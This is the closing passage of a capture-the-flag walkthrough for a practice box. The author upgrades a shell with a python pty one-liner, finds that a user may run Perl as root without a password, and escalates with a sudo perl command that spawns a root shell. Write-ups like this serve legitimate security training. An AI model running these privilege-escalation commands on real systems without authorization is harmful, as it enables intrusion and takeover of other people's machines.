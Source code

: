 I upgrade the shell with python and pty:

```
python3 -c "import pty; pty.spawn('/bin/bash/');"
```

First, I check all sudo commands `sudo -l` to understand which command I can run on [localhost](http://localhost) as sudo:

![https://www.freecodecamp.org/news/content/images/2020/08/Screenshot-2020-08-28-at-22.26.07.png](https://www.freecodecamp.org/news/content/images/2020/08/Screenshot-2020-08-28-at-22.26.07.png)

I find that the user Shelly can execute the Perl command as “root” without a password. I perform a Perl privilege escalation:

```
sudo perl -e 'exec "/bin/bash";'
```

![https://www.freecodecamp.org/news/content/images/2020/08/Screenshot-2020-08-28-at-22.30.41.png](https://www.freecodecamp.org/news/content/images/2020/08/Screenshot-2020-08-28-at-22.30.41.png)

I am now root!

# Conclusions

---

This was a great box to learn something new. I liked it and think that this was a good OSCP practice. It was also fun to solve the box in multiple ways and try a few privilege escalations.